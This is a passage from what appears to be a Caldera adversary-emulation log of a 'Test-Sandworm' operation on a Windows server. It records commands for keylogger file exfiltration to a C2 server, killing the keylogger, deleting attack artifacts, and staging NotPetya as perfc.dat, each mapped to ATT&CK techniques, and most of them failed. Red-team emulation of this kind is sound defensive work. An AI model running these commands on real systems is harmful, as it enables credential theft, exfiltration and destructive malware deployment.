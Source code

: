 ```
ory of C:\\Windows\\System32","stderr":"File Not Found","exit_code":"1"},"agent_reported_time":"2024-11-12T08:13:59Z"},{"command":"type C:\\Windows\\System32\\mslog.txt","plaintext_command":"type C:\\Windows\\System32\\mslog.txt","delegated_timestamp":"2024-11-12T08:14:02Z","collected_timestamp":"2024-11-12T08:14:57Z","finished_timestamp":"2024-11-12T08:14:57Z","status":1,"platform":"windows","executor":"cmd","pid":2016,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"854c63de-cc94-4581-81b0-4c2292123898","ability_name":"Sandworm Upload Keystroke File","ability_description":"Reads contents of the mslog.txt keystroke file and uploads the file to the C2 server.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"exfiltration","technique_name":"Exfiltration Over C2 Channel","technique_id":"T1041"},"output":{"stdout":"","stderr":"The system cannot find the file specified.","exit_code":"1"},"agent_reported_time":"2024-11-12T08:14:57Z"},{"command":"taskkill /F /IM mslog.exe","plaintext_command":"taskkill /F /IM mslog.exe","delegated_timestamp":"2024-11-12T08:15:02Z","collected_timestamp":"2024-11-12T08:15:37Z","finished_timestamp":"2024-11-12T08:15:37Z","status":1,"platform":"windows","executor":"cmd","pid":6276,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"65639630-733c-4179-8543-2c64cb577ca0","ability_name":"Sandworm Stop Keystroke Logger","ability_description":"Terminates the mslog.exe keystroke process.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"credential-access","technique_name":"Input Capture: Keylogging","technique_id":"T1056.001"},"output":{"stdout":"","stderr":"ERROR: The process \"mslog.exe\" not found.","exit_code":"128"},"agent_reported_time":"2024-11-12T08:15:35Z"},{"command":"del /Q C:\\Windows\\System32\\oradump.exe C:\\Windows\\System32\\mslog.exe C:\\Windows\\System32\\mslog.txt","plaintext_command":"del /Q C:\\Windows\\System32\\oradump.exe C:\\Windows\\System32\\mslog.exe C:\\Windows\\System32\\mslog.txt","delegated_timestamp":"2024-11-12T08:15:42Z","collected_timestamp":"2024-11-12T08:16:13Z","finished_timestamp":"2024-11-12T08:16:13Z","status":0,"platform":"windows","executor":"cmd","pid":1020,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"d91962e6-cb75-4f29-b2ce-36db15415e40","ability_name":"Sandworm Cleanup Artifacts","ability_description":"Sandworm Team has used backdoors that can delete files used in an attack from an infected system.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"defense-evasion","technique_name":"Indicator Removal on Host: File Deletion","technique_id":"T1070.004"},"agent_reported_time":"2024-11-12T08:16:14Z"},{"command":"copy \\\\TSCLIENT\\X\\SharpNP.dll C:\\Windows\\perfc.dat;dir C:\\Windows\\perfc.dat;","plaintext_command":"copy \\\\TSCLIENT\\X\\SharpNP.dll C:\\Windows\\perfc.dat;dir C:\\Windows\\perfc.dat;","delegated_timestamp":"2024-11-12T08:16:17Z","collected_timestamp":"2024-11-12T08:17:06Z","finished_timestamp":"2024-11-12T08:17:09Z","status":1,"platform":"windows","executor":"psh","pid":5560,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"ba30987a-efc8-46a6-b0ec-94f4cc53dbff","ability_name":"Sandworm Download NotPetya","ability_description":"Sandworm downloads NotPetya (perfc.dat) using powershell.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"command-and-control","technique_name":"Ingress Tool Transfer","technique_id":"T1105"},"output":{"stdout":"","stderr":"copy : Cannot find path '\\\\TSCLIENT\\X\\SharpNP.dll' because it does not exist.At line:1 char:1+ copy \\\\TSCLIENT\\X\\SharpNP.dll C:\\Windows\\perfc.dat;dir C:\\Windows\\per ...+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~    + CategoryInfo          : ObjectNotFound: (\\\\TSCLIENT\\X\\SharpNP.dll:String) [Copy-Item], ItemNotFoundException    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.CopyItemCommand dir : Cannot find path 'C:\\Windows\\perfc.dat' because it does not exist.At line:1 char:52+ ... TSCLIENT\\X\\SharpNP.dll C:\\Windows\\perfc.dat;dir C:\\Windows\\perfc.dat;+ ~~~~~~~~~~~~~~~~~~~~~~~~    + CategoryInfo          : ObjectNotFound: (C:\\Windows\\perfc.dat:String) [Get-ChildItem], ItemNotFoundException    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Comm
```